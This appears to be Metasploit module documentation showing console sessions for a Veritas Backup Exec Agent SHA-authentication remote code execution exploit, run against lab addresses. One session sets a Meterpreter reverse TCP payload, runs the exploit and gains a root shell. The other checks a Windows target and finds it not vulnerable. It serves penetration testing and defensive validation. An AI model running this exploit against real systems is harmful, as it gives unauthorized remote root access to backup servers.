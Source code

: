 ```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > show options 

Module options (exploit/multi/veritas/beagent_sha_auth_rce):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   INTERPRETER  /bin/bash        yes       The command line interpreter for executing OS command
   RHOSTS       172.16.180.136   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT        10000            yes       The target port (TCP)


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.180.248   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux


msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444 
[*] 172.16.180.136:10000 - Exploiting ...
[*] 172.16.180.136:10000 - Connecting to BE Agent service
[*] 172.16.180.136:10000 - Enabling TLS for NDMP connection
[*] 172.16.180.136:10000 - Passing SHA authentication
[*] 172.16.180.136:10000 - Uploading payload with CmdStager
[*] 172.16.180.136:10000 - Command Stager progress -  39.74% done (302/760 bytes)
[*] Sending stage (989032 bytes) to 172.16.180.136
[*] 172.16.180.136:10000 - Command Stager progress - 100.00% done (760/760 bytes)
[*] Meterpreter session 3 opened (172.16.180.248:4444 -> 172.16.180.136:49264) at 2022-09-12 01:52:35 +0300

meterpreter > getuid
Server username: root
meterpreter > 
```

### Windows; Backup Exec 21.2 (Backup Exec Remote Agent, revision 9.4) - NOT VULNERABLE
```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > use exploit/multi/veritas/beagent_sha_auth_rce
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set RHOSTS 172.16.180.140
RHOSTS => 172.16.180.140
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.140:10000 - Checking vulnerability
[*] 172.16.180.140:10000 - Connecting to BE Agent service
[*] 172.16.180.140:10000 - Getting supported authentication types
Supported authentication by BE agent: BEWS2 (190), SSPI (4)
BE agent revision: 9.4
[*] 172.16.180.140:10000 - The target is not exploitable. SHA authentication is disabled
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > show options 

Module options (exploit/multi/veritas/beagent_sha_auth_rce):
```
